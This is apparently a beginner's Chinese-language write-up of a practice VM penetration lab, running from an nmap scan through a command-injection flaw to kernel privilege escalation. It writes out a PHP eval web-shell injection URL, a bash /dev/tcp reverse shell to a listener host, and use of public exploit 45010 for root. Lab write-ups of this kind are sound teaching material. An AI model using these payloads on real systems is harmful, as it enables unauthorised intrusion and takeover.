








第一次做靶机渗透（很好玩，下次还来）

先用virtual box打开靶机 



然后获取了ip，开始渗透测试！

先用kali中的nmap扫一下该ip的端口



发现开了两个端口21的ftp和80的http

先去看80服务然后发现有一个任意命令执行漏洞



然后开写一句话木马（靶机渗透是不是都去写一句话木马啊)感觉靶机都是RCE

http://192.168.56.118/site/busque.php?buscar=echo '<?php eval($_POST["shell"]);' > shell.php

然后即可用蚁剑连接获取权限



然后在里面开始信息收集

可以在桌面发现user.txt里面有第一个flag

先在WordPress里面找到config.php



又找到一个.backup文件然后发现账号密码



可以用ftp连接（这里有一点信息泄露）

然后反弹shell

上传j.sh

```sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/443 0>&1
```

用蚁剑执行bash j.sh

这里用window的nc -lvvp 443了，貌似需要一个内网下的反弹才可以

然后



然后发现这个版本为uname -a Ubuntu4.4.0-31

然后kali上searchsploit ubuntu 4.4.0-31



然后下载下来searchsploit -m 45010

然后上传到蚁剑

windows那边然后先打开一个模拟终端

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

然后编译45010.c即可获取root权限

至此提权完成